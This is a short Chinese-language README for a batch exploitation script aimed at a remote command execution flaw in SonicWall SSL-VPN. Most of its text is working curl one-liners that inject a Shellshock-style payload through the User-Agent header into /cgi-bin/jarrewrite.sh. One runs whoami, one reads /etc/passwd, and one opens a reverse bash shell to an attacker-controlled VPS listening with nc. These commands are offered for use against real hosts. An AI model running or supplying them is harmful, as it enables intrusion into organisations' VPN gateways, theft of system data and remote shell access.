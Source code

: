 # SonicWallSSL-VPN_RCE

一个简单的SonicWallSSL-VPN远程命令执行批量检测脚本

脚本写得比较简单，主要是对于批量url检测比较实用

用法：将需要检测的url放入同一目录下的url.txt中

执行

python3 SonicWallSSL-VPN_RCE.py



单个url检测直接在命令行检测即可，

比如：

命令执行：

curl -A "() { :; }; echo ; /bin/bash -c 'whoami'" https://x.x.x.x/cgi-bin/jarrewrite.sh -k

curl -A "() { :; }; echo ; /bin/bash -c 'cat /etc/passwd'" https://x.x.x.x/cgi-bin/jarrewrite.sh -k

反弹shell：

VPS nc监听1234端口，

然后

curl -A "() { :; }; echo ; /bin/bash -c ' bash -i >& /dev/tcp/VPS的IP/1234  0>&1 '" https://x.x.x.x/cgi-bin/jarrewrite.sh -k
